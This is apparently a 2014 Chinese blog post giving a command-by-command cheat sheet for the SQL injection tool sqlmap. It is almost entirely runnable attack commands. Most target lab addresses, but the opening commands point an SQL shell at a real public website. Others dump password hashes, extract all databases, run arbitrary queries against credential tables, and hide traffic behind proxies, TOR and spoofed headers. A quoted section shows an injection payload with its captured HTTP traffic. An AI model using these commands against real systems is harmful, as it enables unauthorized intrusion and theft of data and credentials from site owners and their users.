 title: sqlmap简单中文说明
id: 1330
categories:
  - 安全
date: 2014-06-12 23:47:40
tags:
  - sqlmap
  - sql注入
---

整理：mickey

更新
svn checkout https://svn.sqlmap.org/sqlmap/trunk/sqlmap sqlmap-dev

sqlmap.py -u "http://www.islamichina.com/hotelinchina.asp?cityid=2&m=1" -v 1 --sql-shell //执行SQL语句

sqlmap.py -u "http://www.islamichina.com/hotelinchina.asp?cityid=2&m=1" -v 5 //更详细的信息

load options from a configuration INI file
sqlmap -c sqlmap.conf
<!--more-->
使用POST方法提交
sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/post_int.php" --method POST --data "id=1"

使用COOKIES方式提交,cookie的值用;分割,可以使用TamperData来抓cookies
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/cookie_int.php" --cookie "id=1" -v 1

使用referer欺骗
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --referer "http://www.google.com" -v 3

使用自定义user-agent,或者使用随机使用自带的user-agents.txt
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3

python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 -a "./txt/user-agents.txt"

使用基本认证
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass" -v 3

使用Digest认证
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/digest/get_int.php?id=1" --auth-type Digest --auth-cred "testuser:testpass" -v 3

使用代理,配合TOR
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:3128"
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:8118"

使用多线程猜解
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 --current-user --threads 3

绕过动态检测,直接指定有注入点的参数,可以使用,分割多个参数,指定user-agent注入
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 1 -p "id
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1&cat=2" -v 1 -p "cat,id"
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/ua_str.php" -v 1 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"

指定数据库,绕过SQLMAP的自动检测
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --dbms "PostgreSQL"

* MySQL
* Oracle
* PostgreSQL
* Microsoft SQL Server

指定操作系统,绕过SQLMAP自动检测
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --os "Windows"

* Linux
* Windows

自定义payload
Options: --prefix and --postfix

In some circumstances the vulnerable parameter is exploitable only if the user provides a postfix to be appended to the injection payload. Another scenario where these options come handy presents itself when the user already knows that query syntax and want to detect and exploit the SQL injection by directly providing a injection payload prefix and/or postfix.

Example on a MySQL 5.0.67 target on a page where the SQL query is: $query = "SELECT * FROM users WHERE id=('" . $_GET['id'] . "') LIMIT 0, 1";:

$ python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_str_brackets.php?id=1" -v 3 -p "id" --prefix "'" --postfix "AND 'test'='test"

[...]
[hh:mm:16] [INFO] testing sql injection on GET parameter 'id' with 0 parenthesis
[hh:mm:16] [INFO] testing custom injection on GET parameter 'id'
[hh:mm:16] [TRAFFIC OUT] HTTP request:
GET /sqlmap/mysql/get_str_brackets.php?id=1%27%29%20AND%207433=7433%20AND%20
%28%27test%27=%27test HTTP/1.1
Accept-charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Host: 192.168.1.121:80
Accept-language: en-us,en;q=0.5
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,
image/png,*/*;q=0.5
User-agent: sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)
Connection: close
[...]
[hh:mm:17] [INFO] GET parameter 'id' is custom injectable
[...]

As you can see, the injection payload for testing for custom injection is:

id=1%27%29%20AND%207433=7433%20AND%20%28%27test%27=%27test

which URL decoded is:

id=1') AND 7433=7433 AND ('test'='test

and makes the query syntatically correct to the page query:

SELECT * FROM users WHERE id=('1') AND 7433=7433 AND ('test'='test') LIMIT 0, 1

In this simple example, sqlmap could detect the SQL injection and exploit it without need to provide a custom injection payload, but sometimes in the real world application it is necessary to provide it.

页面比较
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v

排除网站的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"

多语句测试，php内嵌函数mysql_query(),不支持多语句
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1

union注入测试
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1

unionz注入配合orderby
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1

python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs

fingerprint
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b

判断当前用户是否是dba
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --is-dba -v 1

列举数据库用户
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0

列举数据库用户密码
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0

查看用户权限
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0

列数据库
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dbs -v 0

列出指定数据库指定表的列名
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --columns -T users -D test -v 1

列出指定数据库的指定表的指定列的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump -T users -D master -C surname -v 0

指定列的范围从2－4
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0

导出所有数据库，所有表的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump-all -v 0

只列出用户自己新建的数据库和表的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0

sql query
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1

SELECT usename, passwd FROM pg_shadow ORDER BY usename

保存和恢复会话
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"

保存选项到INC配置文件
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save